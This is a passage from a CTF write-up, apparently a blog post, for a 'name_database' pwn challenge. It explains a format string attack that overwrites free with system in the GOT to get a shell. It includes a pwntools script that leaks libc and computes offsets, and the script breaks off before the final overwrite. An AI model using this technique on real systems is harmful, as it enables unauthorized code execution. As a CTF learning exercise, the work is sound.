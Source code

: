 This looked like a heap challenge, however I solved it using Format String.

This is the decompiled main function:

![](/assets/images/posts/2022-04-17-18-38-38.png)

![](/assets/images/posts/2022-04-17-18-38-48.png)

We can create notes which are inserted into a Linked List. Each note has an ID, a char* name which gets allocated on the heap and a pointer to the next element in the Linked List.

We can also delete notes, which deallocates the memory correctly.

![](/assets/images/posts/2022-04-17-18-44-07.png)

Using FSB, we can overwrite free to point to system in .got.plt, and when deleting a `/bin/sh` note we will get a shell.

I'm using `FmtStr` from pwntools in order to automate the process. As strcpy is used after reading our input, our payloads cannot contain nullbyte. That's why we have to pad the input and to clear the stack with multiple notes.

```py
from pwn import *

context.clear(arch = 'amd64')

def exec_fmt(payload):
    p = process('./name_database')
    p.sendline(b'1')
    p.sendline(payload)
    p.sendline(b'1')
    p.sendline(b'5')
    return p.recvall()

def exec_haha(payload, p):
    p.sendline(b'1')
    p.sendline(payload)
    p.sendline(b'1')
    return p.recvuntil(b'5: Exit')

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

#p = process('./name_database')

p = remote('ctf-15.security.cs.pub.ro', 41337)

p.recvuntil(b'5: Exit')

#for i in range(19, 20):
#    r = exec_fmt(f'%{i}$p'.encode()).split(b'\n')[-9].split(b' ')[-1]
#    print(i, r)

libc_start_main_leak = int(exec_haha(f'%19$p'.encode(), p).split(b'\n')[2].split(b' ')[-1][2:],16)

offset_main = 0x21C87
#offset_main = 0x240B3

libc_leak = libc_start_main_leak - offset_main

print(hex(libc_start_main_leak))
print(hex(libc_leak))

system_offset =  0x4F420
#system_offset = 0x522C0
```